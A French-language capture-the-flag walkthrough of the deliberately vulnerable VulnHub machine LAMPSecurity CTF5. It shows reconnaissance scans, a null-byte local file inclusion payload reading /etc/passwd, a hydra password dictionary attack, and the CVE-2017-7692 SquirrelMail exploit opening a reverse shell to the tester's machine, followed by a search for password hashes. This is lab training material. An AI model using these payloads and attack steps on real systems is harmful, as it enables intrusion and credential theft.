# LAMPSecurity: CTF5

[LAMPSecurity](https://sourceforge.net/projects/lampsecurity/) est un projet conçu par le chercheur en sécurité [Justin Klein Keane](https://www.vulnhub.com/author/madirish2600,75/) alias madirish2600, qui nous gratifie d'un ensemble de machines virtuelles volontairement vulnérables. L'objectif est de trouver et d'exploiter des vulnérabilités sur chacune de ces VM, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. Ce _walkthrough_ sera consacré à la résolution complète de la cinquième VM de la série, [LAMPSecurity CTF5](https://www.vulnhub.com/entry/lampsecurity-ctf5,84/). Vous voilà prévenus et pour paraphraser [la chaîne YouTube CinemaSins](https://www.youtube.com/channel/UCYUQQgogVeQY8cMQamhHJcg) : spoilers!! (duh..)

## Recherche d'informations

Avant de dévaliser un magasin ou de s'introduire dans une villa luxueuse, un cambrioleur bien avisé se doit de préparer le terrain en faisant des repérages : il observe et se renseigne non seulement sur sa cible mais également sur le quartier avoisinant, il prend note des allées et venues, des issues possibles (portes/fenêtres/véranda/cheminée...), des systèmes de vidéosurveillance et de tout autre élément qui lui sera utile pour peaufiner son attaque.
  
En informatique, c'est la même chose. La première phase d'une attaque consiste à récolter un maximum d'informations sur l'environnement cible, grâce à des moteurs de recherche ou à l'aide d'outils de scan. En fonction des éléments trouvés par l'assaillant, il lui sera alors possible d'ajuster ses attaques à venir.

Pour commencer, l'outil [__netdiscover__](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM LAMPSecurity CTF5.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:10      1      60  Unknown vendor
192.168.56.101  00:0c:29:44:6b:32      1      60  PCS Systemtechnik GmbH
192.168.56.102  08:00:27:38:27:38      1      60  PCS Systemtechnik GmbH
```

192.168.56.102 est l'adresse IP de ma machine virtuelle [Kali](https://docs.kali.org/introduction/what-is-kali-linux), une distribution Linux basée sur Debian et véritable couteau suisse en matière de sécurité informatique. Par déduction, 192.168.56.101 correspond à l'adresse IP de la VM LAMPSecurity CTF5. À présent, c'est au tour de l'outil [__nmap__](https://nmap.org/book/man.html#man-description) d'être lancé afin de détecter les ports ouverts sur le serveur CTF5, d'identifier les services installés et d'obtenir des informations sur le système d'exploitation.

```console
root@blinils:~# nmap -sT -sV -p- 192.168.56.101

Host is up (0.00057s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.7 (protocol 2.0)
25/tcp    open  smtp        Sendmail 8.14.1/8.14.1
80/tcp    open  http        Apache httpd 2.2.6 ((Fedora))
110/tcp   open  pop3        ipop3d 2006k.101
111/tcp   open  rpcbind     2-4 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
143/tcp   open  imap        University of Washington IMAP imapd 2006k.396 (time zone: -0500)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
901/tcp   open  http        Samba SWAT administration server
3306/tcp  open  mysql       MySQL 5.0.45
33278/tcp open  status      1 (RPC #100024)
MAC Address: 00:0c:29:44:6b:32 (Oracle VirtualBox virtual NIC)
Service Info: Hosts: localhost.localdomain, 192.168.56.101; OS: Unix
```

Toutes ces informations glanées en quelques minutes vont permettre à une personne malveillante de peaufiner ses attaques à venir : ainsi, il est possible de [se connecter à distance avec SSH](https://en.wikipedia.org/wiki/SSH_(Secure_Shell)) au serveur LAMPSecurity CTF5 (port 22), un serveur Web Apache 2.2.6 (port 80) et une base de données MySQL 5.0.45 (port 3306) y sont installés, ainsi qu'un [système de partage de fichiers Samba](https://doc.ubuntu-fr.org/samba) (ports 139, 445 et 901) et un serveur de messagerie électronique (ports 25, 110 et 143). Pour chacun de ces services, il est désormais temps de partir à la chasse aux vulnérabilités.

## Recherche de vulnérabilités

Le serveur Web semble a priori le plus alléchant pour commencer ; voici le site qu'il va falloir analyser de fond en comble.



Il y a tellement de pages, de pistes intéressantes à creuser que l'on ne sait plus où donner de la tête.
* ```index.php``` qui affiche des informations en fonction du paramètre ```page``` (about, contact)
* ```/list/``` un formulaire d'inscription à la mailing-list de Phake Organization
* ```/~andy/``` le blog _powered by NanoCMS_ d'Andy Carp, le directeur marketing de la société
* ```/~andy/data/nanoadmin.php``` l'interface d'administration du blog NanoCMS
* ```/events/``` un système de gestion d'événements sous Drupal 
* ```/mail``` un formulaire d'authentification au webmail SquirrelMail version 1.4.11-1.fc8

Après avoir parcouru manuellement le site, un peu de recherche automatisée ne fera pas de mal avec [__nikto__](https://cirt.net/nikto2-docs/), un outil d'audit pour serveurs Web.

```console
root@blinils:~# nikto -h http://192.168.56.101
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.56.101
+ Target Hostname:    192.168.56.101
+ Target Port:        80
+ Start Time:         2018-01-01 00:00:01 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.2.6 (Fedora)
+ Retrieved x-powered-by header: PHP/5.2.4
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.6 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ /index.php?page=../../../../../../../../../../etc/passwd: PHP include error may indicate local or remote file inclusion is possible.
+ /index.php?page=../../../../../../../../../../boot.ini: PHP include error may indicate local or remote file inclusion is possible.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3092: /phpmyadmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ Server leaks inodes via ETags, header found with file /phpmyadmin/ChangeLog, inode: 558008, size: 22676, mtime: Tue Aug 21 04:59:12 2029
+ OSVDB-3092: /phpmyadmin/ChangeLog: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ Cookie SQMSESSID created without the httponly flag
+ OSVDB-3093: /mail/src/read_body.php: SquirrelMail found
+ OSVDB-3093: /squirrelmail/src/read_body.php: SquirrelMail found
+ /info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3268: /icons/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /index.php?module=PostWrap&page=http://cirt.net/rfiinc.txt?: PHP include error may indicate local or remote file inclusion is possible.
+ /index.php?page=http://cirt.net/rfiinc.txt?: PHP include error may indicate local or remote file inclusion is possible.
+ /index.php?page=http://cirt.net/rfiinc.txt?%00: PHP include error may indicate local or remote file inclusion is possible.
+ /index.php?page=http://cirt.net/rfiinc.txt??: PHP include error may indicate local or remote file inclusion is possible.
+ /index.php?page[path]=http://cirt.net/rfiinc.txt??&cmd=ls: PHP include error may indicate local or remote file inclusion is possible.
+ /info.php?file=http://cirt.net/rfiinc.txt?: Output from the phpinfo() function was found.
+ OSVDB-5292: /info.php?file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ /phpmyadmin/: phpMyAdmin directory found
+ OSVDB-3092: /phpmyadmin/Documentation.html: phpMyAdmin is for managing MySQL databases, and should be protected or limited to authorized hosts.
+ 8345 requests: 0 error(s) and 32 item(s) reported on remote host
+ End Time:           2018-01-01 00:00:03 (GMT1) (2 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Outre la détection des versions de PHP (5.2.4) et d'Apache (2.2.6 Fedora), l'outil nikto a repéré
[une page phpinfo()](https://www.php.net/manual/fr/function.phpinfo.php) qui affiche de nombreuses informations « sur PHP, concernant sa configuration courante : options de compilation, extensions, version, informations sur le serveur, et l'environnement (lorsqu'il est compilé comme module), environnement PHP, informations sur le système, chemins, valeurs générales et locales de configuration, en-têtes HTTP et la licence PHP ». Et notamment...

```
System		Linux localhost.localdomain 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686
Build Date	Oct 16 2007 09:15:34
```

Il s'agit d'une information très utile, si jamais des [failles système](https://fr.wiktionary.org/wiki/local_root_exploit) venaient à être nécessaires [pour une élévation de privilèges](https://www.exploit-db.com) sur le serveur. Désormais, l'heure est à l'exploitation des vulnérabilités Web !

## Exploitation des vulnérabilités

Go go go!

### Local File Inclusion (LFI) sur la page index.php

```
+ /index.php?page=../../../../../../../../../../etc/passwd: PHP include error may indicate local or remote file inclusion is possible.
+ /index.php?page=../../../../../../../../../../boot.ini: PHP include error may indicate local or remote file inclusion is possible.
```

Dans un premier temps, __nikto__ nous informe qu'une [inclusion de fichier local](https://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_remote file inclusion_ en anglais) est possible via ```index.php``` et son paramètre ```page```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site. Ainsi, si l'appel des URL ```http://192.168.56.101/?page=about``` et ```http://192.168.56.101/?page=contact``` affichent respectivement les fichiers ```about.php``` et ```contact.php``` situés très probablement dans le répertoire ```/var/www/html```, rien n'empêche d'inclure le fichier ```info.php``` signalé par nikto avec l'URL ```http://192.168.56.101/index.php?page=info```, n'est-ce pas ?

```
+ /info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
```


Rectification : les fichiers ```about.php``` et ```contact.php``` sont situés précisément dans le répertoire ```/var/www/html/inc```. Néanmoins, cette erreur PHP confirme l'existence de la vulnérabilité. Sans connaître exactement le contenu du fichier ```index.php```, il est possible de « reconstituer » la portion de code relative à l'inclusion de fichier. Le code PHP ci-dessous doit s'en approcher fortement... et de toute façon, spoilers, nous en aurons le coeur net lorsque nous nous serons introduits sur le serveur.

```php
1	<?php
2		/* paramètre renseigné ? */
3		if (isset($_GET['page']))
4			$fichier = $_GET['page'];
5		/* inclusion du fichier appelé */
6		include_once ("/var/www/html/inc/" . $fichier . ".php");
7	?>
```

L'exploitation de cette vulnérabilité consiste, dans un premier temps, à remonter le plus haut possible dans l'arborescence à l'aide du symbole [..](https://www.cs.jhu.edu/~joanne/unix.html) synonyme de « répertoire parent ». Ensuite, il faut cibler un fichier intéressant, par exemple ```/etc/passwd``` qui contient la liste des utilisateurs Unix. Mais il y a un couac ! En effet, l'URL ```/index.php?page=../../../../../etc/passwd``` proposée par nikto ne permet pas de récupérer le fichier, car le code PHP à la ligne 6 ajoute l'extension ```.php``` lors de l'inclusion. Une erreur apparaît alors, car le fichier ```/etc/passwd.php``` n'existe pas !

```
Warning: include_once(inc/../../../../../../../../../../etc/passwd.php) [function.include-once]: failed to open stream: No such file or directory in /var/www/html/index.php on line 6
Warning: include_once() [function.include]: Failed opening 'inc/../../../../../../../../../../etc/passwd.php' for inclusion (include_path='.:/usr/share/pear:/usr/share/php') in /var/www/html/index.php on line 6
```

Fort heureusement — ou malheureusement, tout dépend si l'on adopte le point de vue de l'attaquant ou du défenseur — il existe une astuce pour contrecarrer l'ajout de l'extension .php : l'injection d'un octet nul ([_null byte injection_](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection) en anglais). Pour faire simple, tout ce qui se trouve après l'octet nul ```%00``` n'est pas pris en compte ; ainsi, l'URL ```/index.php?page=../../../../../etc/passwd%00``` appellera le fichier ```/etc/passwd%00.png```, soit ```/etc/passwd```. Le résultat est bien celui escompté.



Outre les logins habituels (root, bin, daemon, apache, mysql...), cinq utilisateurs sont particulièrement intéressants : ```patrick```, ```jennifer```, ```andy```, ```loren``` et ```amy```. La prochaine étape logique sera de trouver le mot de passe de chacun d'entre eux, puis de se connecter avec leur compte en SSH. Mais avant cela, il y a d'autres pistes potentiellement intéressantes, remontées par nikto, à analyser.

### Présence de phpMyAdmin

phpMyAdmin est une application Web pour les systèmes de gestion de base de données MySQL. Cette interface pratique permet d'exécuter très facilement des requêtes comme les créations de table de données, insertions, mises à jour, suppressions et modifications de structure de la base de données, ainsi que l'attribution et la révocation de droits et l'import/export. Source : article [PhpMyAdmin](https://fr.wikipedia.org/wiki/PhpMyAdmin) de [Wikipédia en français](https://fr.wikipedia.org) [[auteurs](https://fr.wikipedia.org/w/index.php?title=PhpMyAdmin&action=history)]. D'après le changelog, la version de phpMyAdmin installée est 3.1.4.0 (2009-04-25).

~~OK Google~~ OK Metasploit ! Y a-t-il des exploits intéressants pour cette version de phpMyAdmin ?

```console
msf > search phpmyadmin

Matching Modules
================

Name                                                  Disclosure Date  Rank       Description
----                                                  ---------------  ----       -----------
auxiliary/admin/http/telpho10_credential_dump         2016-09-02       normal     Telpho10 Backup Credentials Dumper
exploit/multi/http/phpmyadmin_3522_backdoor           2012-09-25       normal     phpMyAdmin 3.5.2.2 server_sync.php Backdoor
exploit/multi/http/phpmyadmin_preg_replace            2013-04-25       excellent  phpMyAdmin Authenticated Remote Code Execution via preg_replace()
exploit/multi/http/zpanel_information_disclosure_rce  2014-01-30       excellent  Zpanel Remote Unauthenticated RCE
exploit/unix/webapp/phpmyadmin_config                 2009-03-24       excellent  PhpMyAdmin Config File Code Injection


msf > use exploit/unix/webapp/phpmyadmin_config
msf exploit(unix/webapp/phpmyadmin_config) > show options

Module options (exploit/unix/webapp/phpmyadmin_config):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /phpMyAdmin/     yes       Base phpMyAdmin directory path
   VHOST                     no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
   0   Automatic (phpMyAdmin 2.11.x < 2.11.9.5 and 3.x < 3.1.3.1)
```

Argh! Cet exploit n'est pas valable pour la version de phpMyAdmin installée sur le serveur LAMPSecurity CTF5... et les deux autres exploits listés non plus. Next!

### SquirrelMail - Attaque par dictionnaire

Le webmail SquirrelMail est également présent sur le serveur, dans sa version 1.4.11-1.fc8... et visiblement, [il y a eu du rififi](https://lists.fedoraproject.org/pipermail/test/2007-December/064683.html) ~~et Loulou~~ avec cette version. La [CVE-2007-6348](https://nvd.nist.gov/vuln/detail/CVE-2007-6348) décrit la vulnérabilité comme suit : « _SquirrelMail 1.4.11 and 1.4.12, as distributed on sourceforge.net before 20071213, has been externally modified to create a Trojan Horse that introduces a PHP remote file inclusion vulnerability, which allows remote attackers to execute arbitrary code_ ».

* [Re: SECURITY: 1.4.12 Package Compromise](https://lwn.net/Articles/262691/)
* [SquirrelMail 1.4.13 Released](http://jon.netdork.net/2007/12/14/squirrelmail-1413-released/)
* [SM-DEVEL SECURITY: 1.4.12 Package Compromise](https://marc.info/?l=squirrelmail-devel&m=119756462212214&w=2)
* [Re: SM-DEVEL SECURITY: 1.4.12 Package Compromise](https://marc.info/?l=squirrelmail-devel&m=119765235203392&w=2)
* [squirrelmail 1.4.11 and 1.4.12 are compromised](https://lists.fedoraproject.org/pipermail/test/2007-December/064683.html)
* [What's interesting to me about SquirrelMail attack](http://www.syntaxpolice.org/2007/12/)

De plus, les exploits répertoriés sur [_The Exploit Database_](https://www.exploit-db.com/search?q=SquirrelMail) ne manquent pas, mais la plupart d'entre eux nécessitent un accès authentifié et ne sont pas applicables pour la version 1.4.11. Cinq utilisateurs ont été trouvés grâce à la _Local File Inclusion_ du fichier ```index.php```, autant se focaliser sur eux et essayer de trouver leur mot de passe. Le wiki [SkullSecurity](https://wiki.skullsecurity.org/Passwords) propose un large panel de dictionnaires : le premier à être utilisé (au nom particulièrement évocateur) est ```500-worst-passwords.txt```.

```console
root@blinils:~# hydra -l amy -P /usr/share/dict/500-worst-passwords.txt 192.168.56.101 http-post-form 
"/mail/src/redirect.php:js_autodetect_results=1&just_logged_in=1&login_username=^USER^&secretkey=^PASS^:Unknown user" -t 10 -V

--snip--
[DATA] max 10 tasks per 1 server, overall 10 tasks, 500 login tries (l:1/p:500), ~50 tries per task
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "123456" - 1 of 500 [child 0] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "password" - 2 of 500 [child 1] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "12345678" - 3 of 500 [child 2] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "1234" - 4 of 500 [child 3] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "pussy" - 5 of 500 [child 4] (0/0)
--snip--
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "sandra" - 360 of 500 [child 8] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "pookie" - 361 of 500 [child 5] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "packers" - 362 of 500 [child 8] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "einstein" - 363 of 500 [child 5] (0/0)
[ATTEMPT] target 192.168.56.101 - login "amy" - pass "dolphins" - 364 of 500 [child 2] (0/0)
[80][http-post-form] host: 192.168.56.101   login: amy   password: dolphins
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-01-02 03:04:05
``` 

### SquirrelMail - Exploitation de la CVE-2017-7692

La connexion au Webmail est possible grâce au couple d'identifiants ```amy:dolphins``` trouvé auparavant.



On y trouve un mail envoyé par Patrick, avec à l'intérieur le mot de passe Drupal d'Amy, mais rien d'autre d'intéressant.



Parmi la liste d'exploits disponibles pour SquirrelMail, un seul d'entre eux semble « compatible » avec le setup actuel (version < 1.4.22).

```console
root@blinils:~# searchsploit squirrelmail | grep 1.4
 ---------------------------------------------------------------------------------- 
| Exploit Title                                                                    |
 ---------------------------------------------------------------------------------- 
| SquirrelMail 1.4.2 Address Add Plugin - 'add.php' Cross-Site Scripting           |
| SquirrelMail 1.4.x - Folder Name Cross-Site Scripting                            |
| SquirrelMail 3.1 - Change Passwd Plugin Local Buffer Overflow                    |
| SquirrelMail < 1.4.22 - Remote Code Execution                                    |
| SquirrelMail < 1.4.5-RC1 - Arbitrary Variable Overwrite                          |
| SquirrelMail < 1.4.7 - Arbitrary Variable Overwrite                              |
| Squirrelmail 1.4.x - 'Redirect.php' Local File Inclusion                         |
 ---------------------------------------------------------------------------------- 
```

La CVE-2017-7692 [a parfaitement été décrite ici](https://legalhackers.com/advisories/SquirrelMail-Exploit-Remote-Code-Exec-CVE-2017-7692-Vuln.html) par le concepteur de l'exploit, [Dawid Golunski](https://twitter.com/dawid_golunski) ; inutile donc de paraphraser, toutes les informations se trouvent sur son site LegalHackers. Grâce au couple d'identifiants ```amy:dolphins``` trouvé auparavant, un _reverse shell_ sera créé lors de l'exécution de l'exploit.

```console
root@blinils:~# cp /usr/share/exploitdb/exploits/linux/remote/41910.sh .

root@blinils:~# ./41910.sh http://192.168.56.101/mail/
bash: ./41910.sh: /bin/bash^M: bad interpreter: No such file or directory

root@blinils:~# sed -i -e 's/\r$//' 41910.sh
root@blinils:~# ./41910.sh http://192.168.56.101/mail/

--snip--
SquirrelMail <= 1.4.23 Remote Code Execution PoC Exploit (CVE-2017-7692)

SquirrelMail_RCE_exploit.sh (ver. 1.0)

Discovered and coded by 

Dawid Golunski (@dawid_golunski)
https://legalhackers.com

ExploitBox project:
https://ExploitBox.io

[*] Enter SquirrelMail user credentials
user: amy
pass: dolphins

[*] Logging in to SquirrelMail at http://192.168.56.101/mail/

[*] Uploading Sendmail config

[?] Select payload

1 - File write (into /tmp/sqpoc)
2 - Remote Code Execution (with the uploaded smcnf-exp + phpsh)

[1-2] 2

Reverese shell IP: 192.168.56.102
Reverese shell PORT: 1234

[*] Injecting Sendmail command parameters
(23) Failed writing body

[*] Sending the email to trigger the vuln

[*] Waiting for shell on 192.168.56.102 port 1234
listening on [any] 1234 ...
192.168.56.101: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 33524
bash: no job control in this shell

bash-3.2$ id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0

bash-3.2$ uname -a
Linux localhost.localdomain 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686 i686 i386 GNU/Linux

bash-3.2$ tail -n 8 /etc/passwd
patrick:x:500:500:Patrick Fair:/home/patrick:/bin/bash
jennifer:x:501:501:Jennifer Sea:/home/jennifer:/bin/bash
andy:x:502:502:Andrew Carp:/home/andy:/bin/bash
loren:x:503:503:Loren Felt:/home/loren:/bin/bash
amy:x:504:504:Amy Pendelton:/home/amy:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin

bash-3.2$
```

Un shell a été obtenu sur le serveur ! Le « mail-exploit » se situe quant à lui dans le dossier ```Sent``` d'Amy.



Pour reprendre la métaphore du cambrioleur, dès lors qu'il se sera introduit dans la villa luxueuse, son but est de rechercher minutieusement (ou, au contraire, le plus rapidement possible) des objets/biens de valeur. Dans le cas d'un serveur, une personne malveillante sera à la recherche de clés privées SSH, de données sensibles/personnelles/bancaires ou encore de mots de passe... 

```console
bash-3.2$ grep -rnw '/home/andy' -e 'password' 2>/dev/null
home/andy/public_html/data/pagesdata.txt:1:a:12:{s:8:"homepage";s:1:"1";s:10:"links_cats";a:4:{s:7:"sidebar";a:3:{i:0;i:1;i:1;i:4;i:2;i:12;}s:11:"other-pages";a:0:{}s:14:"top-navigation";a:2:{i:0;s:1:"1";i:1;s:1:"4";}s:12:"Footer-Right";a:2:{i:0;s:1:"1";i:1;s:1:"4";}}s:5:"slugs";a:3:{i:1;s:4:"home";i:4;s:7:"contact";i:12;s:12:"reverseshell";}s:6:"titles";a:3:{i:1;s:4:"Home";i:4;s:7:"Contact";i:12;s:13:"REVERSE-SHELL";}s:10:"slug_count";i:13;s:8:"settings";a:3:{s:19:"index-last-modified";i:1234513760;s:18:"def-template-areas";a:4:{i:0;s:12:"website name";i:2;s:14:"website slogan";i:3;s:16:"below navigation";i:4;s:16:"copyright notice";}s:18:"def-template-links";a:2:{i:0;s:14:"top-navigation";i:1;s:12:"Footer-Right";}}s:13:"active-tweaks";a:2:{i:0;s:7:"deutsch";i:1;s:19:"language-pack-tweak";}s:11:"lang-select";s:7:"english";s:6:"seourl";s:1:"0";s:8:"username";s:5:"admin";s:8:"password";s:32:"9d2f75377ac0ab991d40c91fd27e52fd";s:7:"version";s:4:"v_4f";}
/home/andy/public_html/data/libs/admin.login.lib.php:6:$admin_pass = getDetails('password');
/home/andy/public_html/data/libs/admin.settings.lib.php:29:		$password = $_POST['password'];
/home/andy/public_html/data/libs/admin.settings.lib.php:33:		if(!empty($password)) {
/home/andy/public_html/data/libs/admin.settings.lib.php:34:			setDetails('password',md5($password));
/home/andy/public_html/data/libs/admin.settings.lib.php:36:			$_SESSION[ NANO_CMS_ADMIN_LOGGED ] = md5( md5($password) . $_SESSION[ LOGIN_TIME_STAMP ] );
